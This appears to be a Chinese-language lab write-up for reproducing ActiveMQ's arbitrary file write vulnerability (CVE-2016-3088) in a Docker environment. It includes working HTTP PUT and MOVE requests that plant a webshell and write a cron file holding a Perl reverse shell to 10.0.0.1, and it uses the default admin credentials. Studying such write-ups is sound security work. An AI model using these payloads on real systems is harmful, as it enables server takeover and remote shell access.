



# ActiveMQ 任意文件写入漏洞（CVE-2016-3088）

## 环境搭建

搭建及运行漏洞环境：

```
docker compose build
docker compose up -d
```

环境监听 61616 端口和 8161 端口，其中 8161 为 web 控制台端口，本漏洞就出现在 web 控制台中。

访问 `http://your-ip:8161/` 看到 web 页面，说明环境已成功运行。

## 背景简述

ActiveMQ 的 web 控制台分三个应用，admin、api 和 fileserver，其中 admin 是管理员页面，api 是接口，fileserver 是储存文件的接口；admin 和 api 都需要登录后才能使用，fileserver 无需登录。

fileserver 是一个 RESTful API 接口，我们可以通过 GET、PUT、DELETE 等 HTTP 请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：

1. 其使用率并不高
2. 文件操作容易出现漏洞

所以，ActiveMQ 在 5.12.x~5.13.x 版本中，已经默认关闭了 fileserver 这个应用（你可以在 conf/jetty.xml 中开启之）；在 5.14.0 版本以后，彻底删除了 fileserver 应用。

在测试过程中，可以关注 ActiveMQ 的版本，避免走弯路。

## 漏洞详情

本漏洞出现在 fileserver 应用中，漏洞原理其实非常简单，就是 fileserver 支持写入文件（但不解析 jsp），同时支持移动文件（MOVE 请求）。所以，我们只需要写入一个文件，然后使用 MOVE 请求将其移动到任意位置，造成任意文件写入漏洞。

文件写入有几种利用方法：

1. 写入 webshell
2. 写入 cron 或 ssh key 等文件
3. 写入 jar 或 jetty.xml 等库和配置文件

写入 webshell 的好处是，门槛低更方便，但前面也说了 fileserver 不解析 jsp，admin 和 api 两个应用都需要登录才能访问，所以有点鸡肋；写入 cron 或 ssh key，好处是直接反弹拿 shell，也比较方便，缺点是需要 root 权限；写入 jar，稍微麻烦点（需要 jar 的后门），写入 xml 配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道 activemq 的绝对路径。

分别说一下上述几种利用方法。

### 写入 webshell

前面说了，写入 webshell，需要写在 admin 或 api 应用中，而这俩应用都需要登录才能访问。

默认的 ActiveMQ 账号密码均为 `admin`，首先访问 `http://your-ip:8161/admin/test/systemProperties.jsp`，查看 ActiveMQ 的绝对路径：



然后上传 webshell：

```
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

移动到 web 目录下的 api 文件夹（`/opt/activemq/webapps/api/s.jsp`）中：

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

访问 webshell（需要登录）：



### 写入 crontab，自动化弹 shell

这是一个比较稳健的方法。首先上传 cron 配置文件（注意，换行一定要 `\n`，不能是 `\r\n`，否则 crontab 执行会失败）：

```
PUT /fileserver/1.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

将其移动到 `/etc/cron.d/root`：

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

如果上述两个请求都返回 204 了，说明写入成功。等待反弹 shell：



这个方法需要 ActiveMQ 是 root 运行，否则也不能写入 cron 文件。

### 写入 jetty.xml 或 jar

理论上我们可以覆盖 jetty.xml，将 admin 和 api 的登录限制去掉，然后再写入 webshell。

有的情况下，jetty.xml 和 jar 的所有人是 web 容器的用户，所以相比起来，写入 crontab 成功率更高一点。

尚未测试。
